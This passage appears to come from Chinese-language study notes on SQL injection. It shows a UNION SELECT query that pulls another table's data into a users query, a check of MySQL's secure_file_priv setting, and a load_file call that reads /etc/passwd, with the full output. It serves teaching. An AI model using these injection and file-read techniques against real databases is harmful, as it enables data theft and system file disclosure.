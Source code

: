 - 4、查询到指定数据

![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623984914818-f84be02b-0941-4a10-8075-a87c6a11872b.png#clientId=u036edfef-3b9a-4&from=paste&height=218&id=u172e67f0&originHeight=349&originWidth=1204&originalType=binary&ratio=2&rotation=0&showTitle=false&size=33180&status=done&style=none&taskId=ub615c0d6-08d5-4529-8fb0-6e449e644ab&title=&width=753)
```bash
mysql> SELECT * FROM users WHERE id=-1 union  select book_id,book_title,book_author from book.book  LIMIT 0,1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Linux    | oldjiang |
+----+----------+----------+
1 row in set (0.00 sec)

mysql>

```
**备注：**username和password字段是users表中的字段，又因为查询到的数据为空执行后面的联合字句的时候将内容填充到下面所以获取到的内容并不是十分准确，另外要内容十分准确必须要满足book表和user表的结构完全相同
<a name="skiDi"></a>
### 三、文件读写函数
参考地址：[https://www.sqlsec.com/2020/11/mysql.html](https://www.sqlsec.com/2020/11/mysql.html)<br />load_file						文件读取<br />into outfile 或into dumpfile		文件写入

查询是否有写入的权限
```bash
mysql> show global variables like '%secure_file_priv%';
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
```
| Value | 说明 |
| --- | --- |
| NULL | 不允许导入或导出 |
| /tmp | 只允许在 /tmp 目录导入导出 |
| 空 | 不限制目录 |

> 在 MySQL 5.5 之前 secure_file_priv 默认是空，这个情况下可以向任意绝对路径写文件
> 在 MySQL 5.5之后 secure_file_priv 默认是 NULL，这个情况下不可以写文件

- 文件读取
```bash
mysql> select load_file('/etc/passwd')\G;
*************************** 1. row ***************************
load_file('/etc/passwd'): root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```